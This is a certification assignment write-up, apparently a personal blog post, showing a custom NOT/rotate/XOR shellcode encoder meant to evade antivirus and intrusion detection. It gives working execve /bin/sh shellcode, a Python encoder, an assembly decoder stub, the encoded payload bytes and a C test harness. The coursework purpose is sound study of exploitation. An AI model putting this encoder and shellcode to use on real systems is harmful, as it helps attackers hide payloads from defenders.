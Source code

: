 # Assignment 4

* Create a custom encoding scheme like the "Insertion Encoder" we showed you
* PoC with using the execve-stack as the shellcode to encode with your schema and execute

## Execution

Even if null bytes or other kind of bad chars have been removed from the shellcode, its execution, in several scenarios, might be prevented due to IPS/IDS or antivirus. Thus, it comes the need to encode the shellcode with the goal of minimizing the surface fingerprintable. An encoder happens in two phase:

1. Encoding the shellcode using a schema defined. This can be done using any programming language;
2. Assembly routine that decodes the shellcode.

Let's dive into these two stages.

Firstly, I decided to use the following encoding schema:

* Execute a NOT on each shellcode byte;
* Execute a right bit ROTATE by a predefined number on each shellcode byte;
* Execute a XOR with a predefined byte on each shellcode byte.

Obviously, all these operations are invertible. Below, my implementation in Python using the *execve* payload.

```python
#!/usr/bin/python

# Author  : Alessio Parzian
# Filename: ShellEncoder.py
# Usage   : python ShellEncoder.py

# This script is an helper to encode any shellcode using a custom encoder

# Exec bin/sh shellcode
shellcode = "\xeb\x1a\x5e\x31\xdb\x88\x5e\x09\x89\x76\x0a\x89\x5e\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43";

shellcode = bytearray(shellcode)

xor_fixed = 0xbb 
shift_fixed = 0x02

# This custom encoder makes use of three techniques in a chain
#	NOT encoding
#	ROTATE encoding
#	XOR encoding

for idx,opcode in enumerate(shellcode):
	# Apply NOT encoding
	opcode = ~opcode
	opcode = opcode & 0xff # Mask the result with the goal of preserving only the byte modified
	# Apply Rotation right
	opcode_shifted = opcode >> shift_fixed
	opcode_rotl = (opcode << (8 - shift_fixed)) & 0xff 
	opcode = opcode_shifted | opcode_rotl
	# Apply fixed xor
	opcode = (opcode ^ xor_fixed) & 0xff
	# Save encoded opcode
	shellcode[idx] = opcode

print '==========================='
print 'NOT + ROTATE + XOR'
print 'Shellcode length: {0}'.format(len(shellcode))
print '==========================='
shellcode_final = ""
shellcode_final_array = ""
for opcode in shellcode:
	shellcode_final += "\\x"+"{:02x}".format(opcode)
	shellcode_final_array += "0x"+"{:02x}".format(opcode)+","
shellcode_final_array = shellcode_final_array[:-1]
print shellcode_final
print shellcode_final_array
print '==========================='
```

The output of the above script is the following:

```
===========================
NOT + ROTATE + XOR
Shellcode length: 51
===========================
\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94
0xbe,0xc2,0xd3,0x08,0xb2,0x66,0xd3,0x06,0x26,0xd9,0xc6,0x26,0xd3,0xc7,0x27,0xc3,0x27,0xd7,0xc6,0x27,0xd1,0xc7,0x08,0x74,0x68,0x86,0x37,0x64,0x7e,0x3c,0xbb,0xbb,0xbb,0x8f,0xdc,0x1e,0xdf,0x8f,0xdc,0x1c,0x98,0x5e,0x14,0xd4,0xd4,0xd4,0xd4,0x94,0x94,0x94,0x94
===========================
```

No null bytes present, great! Be sure, in case you change payload that no null bytes are there. In case there are, change the variable *xor_fixed* with a different byte or change the rotation value in the variable *shift_fixed*. Change the related decoding routing accordingly.

Now, let's move to the second part, the decoding routine in Assembly! The encoded shell has to be placed in the EncodedShell label.

```
; Author :  Alessio Parzian
; Filename: shell_encoded.asm

; compile with:
; 	nasm -f elf32 shellcode_encoded.asm
;	ld -o shellcode_encoded shellcode_encoded.o
; extract shellcode with:
; 	objdump -d shellcode_encoded | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'

global _start

section .text

	_start:
		jmp short call_shellcode
	
	decoder:
		pop esi
		xor ebx, ebx
		xor ecx, ecx
		xor edx, edx
		mov cl, 0x32 ; change the value based on the length of the encoded shellcode 
	
	decode:
		mov bl, byte [esi]
		xor bl, 0xbb
		and bl, 0xff
		mov dl, byte [esi]
		xor dl, 0xbb
		and dl, 0xff
		rol bl, 0x02
		and bl, 0xff
		ror dl, 0x06
		and bl, dl
		not bl
		mov byte [esi], bl
		inc esi
		loop decode
		; call the decoded shell
		jmp short EncodedShell

	call_shellcode:
		call decoder
		EncodedShell: db 0xbe,0xc2,0xd3,0x08,0xb2,0x66,0xd3,0x06,0x26,0xd9,0xc6,0x26,0xd3,0xc7,0x27,0xc3,0x27,0xd7,0xc6,0x27,0xd1,0xc7,0x08,0x74,0x68,0x86,0x37,0x64,0x7e,0x3c,0xbb,0xbb,0xbb,0x8f,0xdc,0x1e,0xdf,0x8f,0xdc,0x1c,0x98,0x5e,0x14,0xd4,0xd4,0xd4,0xd4,0x94,0x94,0x94,0x94

```

The decoding phase simply executes the inverse operations of the encoding schema. The JMP/CALL/POP technique has been used to gather the address of the encoded shellcode.
Once compiled the shellcode is the following.

```
\xeb\x2d\x5e\x31\xdb\x31\xc9\x31\xd2\xb1\x32\x8a\x1e\x80\xf3\xbb\x80\xe3\xff\x8a\x16\x80\xf2\xbb\x80\xe2\xff\xc0\xc3\x02\x80\xe3\xff\xc0\xca\x06\x20\xd3\xf6\xd3\x88\x1e\x46\xe2\xde\xeb\x05\xe8\xce\xff\xff\xff\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94
```

The resulting shellcode does not contains null bytes, great! But, note that the size is doubled, from 51 bytes to 103 bytes. In case you need a smaller size, an operation of the encoding schema might be taken away.

For testing the shellcode generated the following helper program was used.

```c
/*
// Author: Alessio Parzian
// Filename: test_shell.c
//
// Test your shellcode. Replace shellcode variable value with your own shell, compile and execute.
// Compile with:
// 	gcc $file_name -fno-stack-protector -z execstack -o $out_name
*/

#include <stdio.h>

// Use an array instead of a pointer because compiler does consider the array as mutable (this implies you can modify it at runtime). For pointers to literal this is not the case unless specific flag is passed to the compiler. This is very important when modifing at runtime the shellcode.
unsigned char shellcode[] = "\xeb\x2d\x5e\x31\xdb\x31\xc9\x31\xd2\xb1\x32\x8a\x1e\x80\xf3\xbb\x80\xe3\xff\x8a\x16\x80\xf2\xbb\x80\xe2\xff\xc0\xc3\x02\x80\xe3\xff\xc0\xca\x06\x20\xd3\xf6\xd3\x88\x1e\x46\xe2\xde\xeb\x05\xe8\xce\xff\xff\xff\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94";

int main (){
	void (*shell)(void) = (void(*)(void)) shellcode;
	shell();
}
```

Well, this concludes assignment 4!

<br/>

---
---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*